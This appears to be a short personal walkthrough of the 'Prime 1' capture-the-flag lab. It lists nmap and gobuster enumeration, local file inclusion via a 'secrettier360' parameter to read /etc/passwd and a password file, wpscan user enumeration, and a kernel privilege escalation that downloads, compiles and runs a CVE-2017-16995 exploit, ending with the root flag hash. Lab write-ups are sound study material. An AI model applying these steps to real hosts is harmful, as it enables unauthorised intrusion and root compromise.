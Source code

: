 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Prime 1
# 29/12/2022

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

----------------------------------------------------
web(gobuster)
----------------------------------------------------
gobuster dir -u http://10.0.2.24 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php,txt

http://10.0.2.24/index.php?file=location.txt
Do something better
ok well Now you reah at the exact parameter
Now dig some more for next one
use 'secrettier360' parameter on some other php page for more fun. 
http://10.0.2.24/image.php?secrettier360=/etc/passwd
http://10.0.2.24/image.php?secrettier360=/home/saket/password.txt
follow_the_ippsec 
wpscan --url http://10.0.2.48/wordpress/ --enumerate vt,vp,u
got username victor

http://10.0.2.24/wordpress/wp-login.php
http://10.0.2.48/wordpress/wp-content/themes/twentynineteen/secret.php
----------------------------------------------------
Previlege escalation
----------------------------------------------------
uname -r
4.10.0-28-generic


cd tmp
wget https://github.com/kkamagui/linux-kernel-exploits/blob/master/kernel-4.10.0-28-generic/CVE-2017-16995/CVE-2017-16995.c

gcc CVE-2017–16995.c -o exploit
./exploit

you got root

----------------------------------------------------
Flag
----------------------------------------------------

cat root.txt
b2b17036da1de94cfb024540a8e7075a
